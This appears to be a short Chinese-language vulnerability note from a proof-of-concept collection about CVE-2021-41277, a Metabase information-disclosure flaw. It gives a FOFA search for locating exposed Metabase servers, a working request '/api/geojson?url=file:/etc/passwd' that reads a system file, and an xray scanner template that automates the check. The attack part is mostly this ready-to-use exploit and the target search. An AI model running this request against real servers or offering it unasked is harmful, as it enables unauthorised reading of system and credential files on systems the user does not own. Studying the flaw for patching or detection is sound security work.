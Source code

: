 # CVE-2021-41277 Metabase 信息泄露漏洞

## 漏洞描述

Metabase是美国Metabase公司的一个开源数据分析平台。

Metabase 中存在信息泄露漏洞，该漏洞源于产品的 admin-＞settings-＞maps-＞custom maps-＞add a map 操作缺少权限验证。攻击者可通过该漏洞获得敏感信息。

- CNNVD编号：CNNVD-202111-1565
- 危害等级：超危

- CVE编号：CVE-2021-41277

## FOFA搜索app="Metabase" 

![image](C:/Users/litbaizhang/Desktop/Metabase%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/Metabase%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E.assets/image-16461850027541.png)

## POC：{{BaseURL}}/api/geojson?url=file:/etc/passwd

例：

![image (1)](C:/Users/litbaizhang/Desktop/Metabase%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/Metabase%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E.assets/image%20(1)-16461850084782.png)

返回码：200



## xrayPOC

```plain
name: poc-yaml-Metabase-FileInclusio-com
rules:
  - method: GET
    path: '/api/geojson?url=file:/etc/passwd'
    headers:
      User-Agent: >-
        Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64;
        Trident/5.0)
    follow_redirects: true
    expression: |
      response.status==200
```